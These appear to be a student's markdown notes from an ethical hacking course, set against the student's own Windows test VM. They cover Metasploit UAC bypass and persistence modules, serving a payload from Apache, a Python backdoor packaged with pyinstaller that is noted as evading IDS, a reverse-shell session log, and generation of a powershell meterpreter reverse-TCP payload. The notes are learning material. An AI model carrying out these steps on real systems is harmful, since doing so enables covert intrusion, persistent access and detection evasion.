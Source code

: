 ```
Server username: NT AUTHORITY\SYSTEM

...
msf6 > search bypassuac
msf6 > use exploit/windoxs/local/...
msf6 > set SESSION X (meterpreter session)
msf6 > run
```


## persistence on target system
- make a payload available on a web server :
```
systemctl start apache2
# rm or backup index file in var/www/html
mv <payload> var/www/html
```
- use persistence modules :
```
msf6 > search persistence
   17  exploit/windows/local/persistence_service 
msf6 > use exploit/windows/local/persistence_service 
msf6 > set SESSION X
set RETRY_TIME 17
set RETRY_TIME 17
set LHOST <kali ip>
...
```
- search all post exploitation modules
```
msf6 > search post
...
```

# Section 12 backdoor pydev
- kali : run server instance (send cmd)
- victim : run client instance (send cmd output)
## code
available in udemy/Ethical_Hacking_learning/python_projects/backdoor

## setup python on win10 test vm
- install python3
pip install -U pyinstaller
- get client.py on vm
pyinstall client.py --noconsole --onefile
- executable in dist folder, contains exec file, not detected as threat by IDS

## test backdoor
```
download C:\Users\IEUser\Documents\module12\test_doc.txt #OK
upload /home/kali/dev/formation/udemy/Ethical_Hacking_learning/python_projects/backdoor/moustache.txt #KO
[+] Listening for incomming connections...
[+] Target connected from : ('<win10 vm ip>', 50120)
* Shell~('<win10 vm ip>', 50120): dir
 Volume in drive C is Windows 10
 Volume Serial Number is E88E-9782

 Directory of C:\Users\IEUser\Documents\module12\dist

09/15/2022  07:39 AM    <DIR>          .
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate